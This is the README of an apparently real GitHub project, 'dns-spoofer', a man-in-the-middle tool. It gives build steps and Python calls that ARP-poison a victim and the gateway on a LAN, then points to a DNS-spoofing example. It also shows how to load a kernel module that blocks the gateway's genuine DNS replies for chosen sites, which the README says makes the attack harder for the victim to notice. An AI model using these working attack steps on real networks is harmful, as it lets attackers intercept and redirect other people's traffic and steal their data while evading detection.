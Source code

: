 [![Build Status](https://travis-ci.org/adw1n/dns-spoofer.svg?branch=master)](https://travis-ci.org/adw1n/dns-spoofer)
![implementation](https://img.shields.io/badge/python-3.4%2C%203.5%2C%203.6-blue.svg)
![versions](https://img.shields.io/badge/implementation-cpython-blue.svg)

![Screenshot](screenshot.gif)

### About
man in the middle attacks

#### Limitations
* Ethernet II networks
* ipv4 only

#### Dependencies / requirements
* libnet-dev
* libpcap-dev
* python3-dev
* c++ compiler with c++11 support

For the "firewall" module:
* linux kernel >=4 (tested on 4.2, 4.4, 4.6 and 4.9)  
For older kernels you will probably have to change some function signatures.
### Install

```bash
git clone https://github.com/adw1n/dns-spoofer
cd dns-spoofer

# If you are going to run setup.py install, then
# I recommend using a virtualenv for this.
python setup.py build
python setup.py install # You could also add directory build/lib... to the PYTHONPATH instead.
```

### Usage
```bash
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
sudo python3  # dnsspoofer requires root privileges
```
#### ARP poisoning
```python
import dnsspoofer

# module documentation is available by:
# help(dnsspoofer)

# your mac addr:
# 33:33:33:33:33:33
# example arp -n output:
# gateway:
# 192.168.1.1     ether   10:20:30:40:50:60   C  em1
# victim:
# 192.168.1.100   ether   01:02:03:04:05:06   C  em1
dnsspoofer.spoof_arp(b"\x01\x02\x03\x04\x05\x06",b"192.168.1.1")
# now arp -n output on the victim's machine:
# 192.168.1.1     ether   33:33:33:33:33:33   C  em1

# you probably also want to spoof the victim's (192.168.1.100)
# mac address on the gateway
dnsspoofer.spoof_arp(b"\x10\x20\x30\x40\x50\x60",b"192.168.1.100")
```

#### DNS poisoning
see the [example.py](example.py) file

I haven't implemented the reverse DNS lookups (.in-addr.arpa requests), but this works fine in most cases without them too.
##### Netfilter kernel module
The DNS spoofing presented in example.py works, provided that you are faster than the gateway. This might not always be the case - for example the gateway might be caching the results. In this case the first time the victim tries to ping facebook.com everything might be working as expected, but the next time he asks about facebook.com the gateway will respond immediately. This can result in your response reaching the victim too late. This is super easy to notice in Wireshark.

The additional benefit of blocking gateway's reponses to the spoofed requests is that it is going to be harder to notice the spoofing going around form the victim's point of view.
##### Solution
**!!!WARNING!!!  
Badly written kernel module can screw up your system. I recommend using a VM for this. Your mileage may vary.**

```bash
cd firewall
make
modinfo dnsfirewall.ko # show info about the module


# load the module
sync && sudo insmod dnsfirewall.ko blocked_sites="wp.pl|facebook.com|youtube.com" gateway=192.168.1.1 victim=192.168.1.100
# Module writes messages to SYSLOG with prefix 'DNS-SPOOFER'.


# remove the module
sync && sudo rmmod dnsfirewall.ko
```
